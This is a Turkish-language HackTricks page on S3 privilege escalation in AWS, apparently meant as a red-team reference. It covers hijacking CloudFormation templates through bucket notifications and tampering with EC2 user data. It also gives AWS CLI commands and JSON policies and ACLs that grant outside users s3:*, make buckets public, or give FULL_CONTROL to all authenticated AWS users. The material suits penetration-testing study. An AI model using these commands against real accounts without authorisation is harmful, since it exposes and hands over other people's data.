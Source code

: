 # AWS - S3 Privesc

{% hint style="success" %}
AWS Hacking'i öğrenin ve pratik yapın:<img src="../../../.gitbook/assets/image (1).png" alt="" data-size="line">[**HackTricks Training AWS Red Team Expert (ARTE)**](https://training.hacktricks.xyz/courses/arte)<img src="../../../.gitbook/assets/image (1).png" alt="" data-size="line">\
GCP Hacking'i öğrenin ve pratik yapın: <img src="../../../.gitbook/assets/image (2).png" alt="" data-size="line">[**HackTricks Training GCP Red Team Expert (GRTE)**<img src="../../../.gitbook/assets/image (2).png" alt="" data-size="line">](https://training.hacktricks.xyz/courses/grte)

<details>

<summary>HackTricks'i Destekleyin</summary>

* [**abonelik planlarını**](https://github.com/sponsors/carlospolop) kontrol edin!
* **💬 [**Discord grubuna**](https://discord.gg/hRep4RUj7f) veya [**telegram grubuna**](https://t.me/peass) katılın ya da **Twitter'da** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks\_live)**'i takip edin.**
* **Hacking ipuçlarını paylaşmak için** [**HackTricks**](https://github.com/carlospolop/hacktricks) ve [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) github reposuna PR gönderin.

</details>
{% endhint %}

## S3

### `s3:PutBucketNotification`, `s3:PutObject`, `s3:GetObject`

İlgili bucket'lar üzerinde bu izinlere sahip bir saldırgan, kaynakları ele geçirip ayrıcalıkları artırabilir.

Örneğin, "cf-templates-nohnwfax6a6i-us-east-1" adlı bir cloudformation bucket'ı üzerinde bu **izinlere sahip bir saldırgan**, dağıtımı ele geçirebilir. Erişim aşağıdaki politika ile verilebilir:
```json
{
"Version":"2012-10-17",
"Statement":[
{
"Effect":"Allow",
"Action":[
"s3:PutBucketNotification",
"s3:GetBucketNotification",
"s3:PutObject",
"s3:GetObject"],
"Resource":[
"arn:aws:s3:::cf-templates-*\/*",
"arn:aws:s3:::cf-templates-*"]
},
{
"Effect":"Allow",
"Action":"s3:ListAllMyBuckets",
"Resource":"*"
}]
}
```
Ve ele geçirme, **şablonun yüklendiği andan** **şablonun dağıtıldığı ana** kadar olan **küçük bir zaman penceresi** olduğu için mümkündür. Bir saldırgan, hesabında **bir lambda fonksiyonu** oluşturabilir ve bu fonksiyon **bir bucket bildirimi gönderildiğinde tetiklenecek** ve o **bucket'ın içeriğini ele geçirecektir**.

![](<../../../.gitbook/assets/image (174).png>)

Pacu modülü [`cfn__resouce_injection`](https://github.com/RhinoSecurityLabs/pacu/wiki/Module-Details#cfn\_\_resource\_injection) bu saldırıyı otomatikleştirmek için kullanılabilir.\
Daha fazla bilgi için orijinal araştırmaya bakın: [https://rhinosecuritylabs.com/aws/cloud-malware-cloudformation-injection/](https://rhinosecuritylabs.com/aws/cloud-malware-cloudformation-injection/)

### `s3:PutObject`, `s3:GetObject` <a href="#s3putobject-s3getobject" id="s3putobject-s3getobject"></a>

Bunlar **S3'e nesne yüklemek ve almak için** gereken izinlerdir. AWS içindeki (ve dışındaki) çeşitli hizmetler, **konfigürasyon dosyalarını** depolamak için S3 depolamasını kullanır.\
Onlara **okuma erişimi** olan bir saldırgan, üzerinde **hassas bilgiler** bulabilir.\
Onlara **yazma erişimi** olan bir saldırgan, **verileri değiştirerek bazı hizmetleri kötüye kullanabilir ve ayrıcalıkları artırmaya çalışabilir**.\
Bunlar bazı örneklerdir:

* Eğer bir EC2 örneği **kullanıcı verilerini bir S3 bucket'ında** depoluyorsa, bir saldırgan bunu **EC2 örneği içinde rastgele kod çalıştırmak için değiştirebilir**.

### `s3:PutBucketPolicy`

Aynı hesapta olması gereken bir saldırgan, aksi takdirde `Belirtilen yöntem izin verilmedi` hatası tetiklenecektir, bu izinle bucket'lar üzerinde daha fazla izin verebilir, böylece bucket'ları okuma, yazma, değiştirme, silme ve ifşa etme yetkisine sahip olacaktır.
```bash
# Update Bucket policy
aws s3api put-bucket-policy --policy file:///root/policy.json --bucket <bucket-name>

## JSON giving permissions to a user and mantaining some previous root access
{
"Id": "Policy1568185116930",
"Version":"2012-10-17",
"Statement":[
{
"Effect":"Allow",
"Principal":{
"AWS":"arn:aws:iam::123123123123:root"
},
"Action":"s3:ListBucket",
"Resource":"arn:aws:s3:::somebucketname"
},
{
"Effect":"Allow",
"Principal":{
"AWS":"arn:aws:iam::123123123123:user/username"
},
"Action":"s3:*",
"Resource":"arn:aws:s3:::somebucketname/*"
}
]
}

## JSON Public policy example
### IF THE S3 BUCKET IS PROTECTED FROM BEING PUBLICLY EXPOSED, THIS WILL THROW AN ACCESS DENIED EVEN IF YOU HAVE ENOUGH PERMISSIONS
{
"Id": "Policy1568185116930",
"Version": "2012-10-17",
"Statement": [
{
"Sid": "Stmt1568184932403",
"Action": [
"s3:ListBucket"
],
"Effect": "Allow",
"Resource": "arn:aws:s3:::welcome",
"Principal": "*"
},
{
"Sid": "Stmt1568185007451",
"Action": [
"s3:GetObject"
],
"Effect": "Allow",
"Resource": "arn:aws:s3:::welcome/*",
"Principal": "*"
}
]
}
```
### `s3:GetBucketAcl`, `s3:PutBucketAcl`

Bir saldırgan, bu izinleri **belirli bucket'lar üzerinde daha fazla erişim sağlamak için** kötüye kullanabilir.\
Saldırganın aynı hesapta olması gerekmediğini unutmayın. Ayrıca yazma erişimi
```bash
# Update bucket ACL
aws s3api get-bucket-acl --bucket <bucket-name>
aws s3api put-bucket-acl --bucket <bucket-name> --access-control-policy file://acl.json

##JSON ACL example
## Make sure to modify the Owner’s displayName and ID according to the Object ACL you retrieved.
{
"Owner": {
"DisplayName": "<DisplayName>",
"ID": "<ID>"
},
"Grants": [
{
"Grantee": {
"Type": "Group",
"URI": "http://acs.amazonaws.com/groups/global/AuthenticatedUsers"
},
"Permission": "FULL_CONTROL"
}
]
}
## An ACL should give you the permission WRITE_ACP to be able to put a new ACL
```
### `s3:GetObjectAcl`, `s3:PutObjectAcl`

Bir saldırgan, bu izinleri kullanarak kendisine belirli nesneler üzerinde daha fazla erişim sağlamak için kötüye kullanabilir.
```bash
# Update bucket object ACL
aws s3api get-object-acl --bucket <bucekt-name> --key flag
aws s3api put-object-acl --bucket <bucket-name> --key flag --access-control-policy file://objacl.json

##JSON ACL example
## Make sure to modify the Owner’s displayName and ID according to the Object ACL you retrieved.
{
"Owner": {
"DisplayName": "<DisplayName>",
"ID": "<ID>"
},
"Grants": [
{
"Grantee": {
"Type": "Group",
"URI": "http://acs.amazonaws.com/groups/global/AuthenticatedUsers"
},
"Permission": "FULL_CONTROL"
}
]
}
## An ACL should give you the permission WRITE_ACP to be able to put a new ACL
```
### `s3:GetObjectAcl`, `s3:PutObjectVersionAcl`

Bu yetkilere sahip bir saldırganın belirli bir nesne sürümüne Acl koyabilmesi beklenmektedir.
```bash
aws s3api get-object-acl --bucket <bucekt-name> --key flag
aws s3api put-object-acl --bucket <bucket-name> --key flag --version-id <value> --access-control-policy file://objacl.json
```
{% hint style="success" %}
AWS Hackleme'yi öğrenin ve pratik yapın:<img src="../../../.gitbook/assets/image (1).png" alt="" data-size="line">[**HackTricks Eğitim AWS Kırmızı Takım Uzmanı (ARTE)**](https://training.hacktricks.xyz/courses/arte)<img src="../../../.gitbook/assets/image (1).png" alt="" data-size="line">\
GCP Hackleme'yi öğrenin ve pratik yapın: <img src="../../../.gitbook/assets/image (2).png" alt="" data-size="line">[**HackTricks Eğitim GCP Kırmızı Takım Uzmanı (GRTE)**<img src="../../../.gitbook/assets/image (2).png" alt="" data-size="line">](https://training.hacktricks.xyz/courses/grte)

<details>

<summary>HackTricks'i Destekleyin</summary>

* [**abonelik planlarını**](https://github.com/sponsors/carlospolop) kontrol edin!
* **💬 [**Discord grubuna**](https://discord.gg/hRep4RUj7f) veya [**telegram grubuna**](https://t.me/peass) katılın ya da **Twitter'da** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks\_live)**'i takip edin.**
* **Hacking ipuçlarını paylaşmak için** [**HackTricks**](https://github.com/carlospolop/hacktricks) ve [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) github reposuna PR gönderin.

</details>
{% endhint %}
